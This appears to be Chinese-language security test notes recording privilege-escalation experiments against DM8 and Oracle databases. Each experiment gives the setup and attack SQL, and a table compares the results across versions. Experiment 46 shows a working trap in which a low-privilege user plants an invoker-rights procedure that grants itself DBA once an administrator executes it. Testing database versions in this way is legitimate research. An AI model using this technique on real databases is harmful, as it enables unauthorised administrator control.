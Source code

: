 #### 提权实验43（DBA授予普通用户DBMS_LOB相关权限，普通用户尝试使用PL/SQL语句直接提权） TEST35

SYSDBA:

```SQL
CREATE USER TEST35 IDENTIFIED BY 123456789;
GRANT CREATE SESSION TO TEST35;
GRANT EXECUTE ON DBMS_LOB TO TEST35;
```

TEST35:

```SQL
DECLARE
    clob_val CLOB;
BEGIN
    DBMS_LOB.CREATETEMPORARY(clob_val, TRUE);
    DBMS_LOB.WRITEAPPEND(clob_val, LENGTH('GRANT DBA TO TEST35'), 'GRANT DBA TO TEST35');
    EXECUTE IMMEDIATE DBMS_LOB.SUBSTR(clob_val, DBMS_LOB.GETLENGTH(clob_val), 1);
    DBMS_LOB.FREETEMPORARY(clob_val);
END;
/


-- 提权失败
SELECT * FROM USER_ROLE_PRIVS WHERE GRANTED_ROLE = 'DBA';

/*
-5567: 授权者没有此授权权限
*/
```



#### 提权实验44（DBA授予普通用户DBMS_LOB相关权限，普通用户尝试使用存储过程/函数直接提权）TEST36

SYSDBA:

```SQL
CREATE USER TEST36 IDENTIFIED BY 123456789;
GRANT CREATE SESSION TO TEST36;
GRANT EXECUTE ON DBMS_LOB TO TEST36;
GRANT CREATE PROCEDURE TO TEST36;
```

TEST36:

```SQL
-- 首先确保存储过程已被创建
CREATE OR REPLACE PROCEDURE grant_dba_proc IS
BEGIN
    EXECUTE IMMEDIATE 'GRANT DBA TO TEST36';
END;
/

-- 然后调用存储过程
DECLARE
    clob_val CLOB;
BEGIN
    DBMS_LOB.CREATETEMPORARY(clob_val, TRUE);
    DBMS_LOB.WRITEAPPEND(clob_val, LENGTH('BEGIN grant_dba_proc; END;'), 'BEGIN grant_dba_proc; END;');
    EXECUTE IMMEDIATE DBMS_LOB.SUBSTR(clob_val, DBMS_LOB.GETLENGTH(clob_val), 1);
    DBMS_LOB.FREETEMPORARY(clob_val);
END;
/

-- 提权失败
SELECT * FROM USER_ROLE_PRIVS WHERE GRANTED_ROLE = 'DBA';

/*
-5567: 授权者没有此授权权限
*/

```

#### 提权实验45（DBA尝试使用PL/SQL间接提权） TEST37

SYSDBA:

```SQL
CREATE USER TEST37 IDENTIFIED BY 123456789;
GRANT CREATE SESSION TO TEST37;

DECLARE
    clob_val CLOB;
BEGIN
    DBMS_LOB.CREATETEMPORARY(clob_val, TRUE);
    DBMS_LOB.WRITEAPPEND(clob_val, LENGTH('GRANT DBA TO TEST37'), 'GRANT DBA TO TEST37');
    EXECUTE IMMEDIATE DBMS_LOB.SUBSTR(clob_val, DBMS_LOB.GETLENGTH(clob_val), 1);
    DBMS_LOB.FREETEMPORARY(clob_val);
END;
/
```

TEST37:

```SQL
--提权成功
SELECT * FROM USER_ROLE_PRIVS WHERE GRANTED_ROLE = 'DBA';
```

#### 提权实验46 （DBA授予普通用户DBMS_LOB相关权限，尝试使用普通用户创建的存储过程/函数间接提权）TEST38

SYSDBA:

```SQL
CREATE USER TEST38 IDENTIFIED BY 123456789;
GRANT CREATE SESSION TO TEST38;
GRANT CREATE PROCEDURE TO TEST38;
```

TEST38:

```SQL
-- 切换到TEST38用户
CREATE OR REPLACE PROCEDURE grant_dba_proc
	AUTHID CURRENT_USER
IS
	PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT DBA TO TEST38';
END;
/
```

SYSDBA:

```SQL
DECLARE
    clob_val CLOB;
BEGIN
    DBMS_LOB.CREATETEMPORARY(clob_val, TRUE);
    DBMS_LOB.WRITEAPPEND(clob_val, LENGTH('TEST38.grant_dba_proc'), 'TEST38.grant_dba_proc');
    EXECUTE IMMEDIATE DBMS_LOB.SUBSTR(clob_val, DBMS_LOB.GETLENGTH(clob_val), 1);
    DBMS_LOB.FREETEMPORARY(clob_val);
END;
/
```

TEST38:

```SQL
--不设置调用者权限提权失败  设置调用者权限提权成功
SELECT * FROM USER_ROLE_PRIVS WHERE GRANTED_ROLE = 'DBA';
```

实验43-46在四个版本的数据库上的实验结果汇总：

| 实验编号 | 数据库版本   | 调用用户 | 实验结果 | 备注（报错）                                      |
| -------- | ------------ | -------- | -------- | :------------------------------------------------ |
| 43       | DM8-20220909 | TEST35   | 提权失败 | -5567: 授权者没有此授权权限                       |
| 43       | DM8-20240321 | TEST35   | 提权失败 | -5723: 用户不能自己为自己 <br />GRANT/REVOKE 权限 |
| 43       | Oracle11g    | TEST35   | 提权失败 | ORA-01031: 权限不足                               |
| 43       | Oracle19c    | TEST35   | 提权失败 | ORA-01031: 权限不足                               |
| 44       | DM8-20220909 | TEST36   | 提权失败 | -5567: 授权者没有此授权权限                       |
| 44       | DM8-20240321 | TEST36   | 提权失败 | -5723: 用户不能自己为自己 <br />GRANT/REVOKE 权限 |
| 44       | Oracle11g    | TEST36   | 提权失败 | > ORA-01031: 权限不足                             |
| 44       | Oracle19c    | TEST36   | 提权失败 | > ORA-01031: 权限不足                             |
| 45       | DM8-20220909 | TEST37   | 提权成功 |                                                   |
| 45       | DM8-20240321 | TEST37   | 提权成功 |                                                   |
| 45       | Oracle11g    | TEST37   | 提权成功 |                                                   |
| 45       | Oracle19c    | TEST37   | 提权成功 |                                                   |
| 46       | DM8-20220909 | TEST38   | 提权成功 |                                                   |
| 46       | DM8-20240321 | TEST38   | 提权成功 |                                                   |
| 46       | Oracle11g    | TEST38   | 提权成功 |                                                   |
| 46       | Oracle19c    | TEST38   | 提权失败 | > ORA-06598: INHERIT <br />PRIVILEGES 权限不足    |

#### 